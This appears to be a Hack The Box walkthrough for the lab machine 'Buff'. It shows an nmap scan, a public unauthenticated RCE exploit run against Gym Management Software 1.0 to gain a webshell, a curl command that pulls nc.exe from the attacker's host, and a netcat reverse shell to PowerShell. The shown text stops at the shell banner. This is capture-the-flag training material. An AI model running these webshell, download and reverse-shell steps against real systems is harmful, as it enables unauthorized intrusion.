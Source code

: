 ----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:~# nmap -Pn -sC -sV -n 10.10.10.198
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-27 08:52 CEST
    Nmap scan report for 10.10.10.198
    Host is up (0.027s latency).
    Not shown: 999 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
    | http-open-proxy: Potentially OPEN proxy.
    |_Methods supported:CONNECTION
    |_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
    |_http-title: mrb3n's Bro Hut


2. Browsing the webpage under Contact we find the information "Made using Gym Management Software 1.0". A quick google for exploits
   the first result that comes up is an unauthenticated RCE. Download and run the python script:

   root@nidus:/git/htb/buff# python rce.py http://10.10.10.198:8080/
                 /\
     /vvvvvvvvvvvv \--------------------------------------,
     `^^^^^^^^^^^^ /============BOKU====================="
                 \/

     [+] Successfully connected to webshell.
     C:\xampp\htdocs\gym\upload> whoami
      �PNG
      �
      buff\shaun


3. The shell is basic and we are unable to traverse the directories. Upload nc.exe and use it to get a workable shell.

    From my browser:
      http://10.10.10.198:8080/upload/kamehameha.php?telepathy=curl -O 10.10.14.4:8888/nc.exe

    C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.4 4488 -e powershell

    root@nidus:~# rlwrap nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.4] from (UNKNOWN) [10.10.10.198] 50355
      Windows PowerShell
      Copyright (C) Microsoft Corporation. All rights reserved.
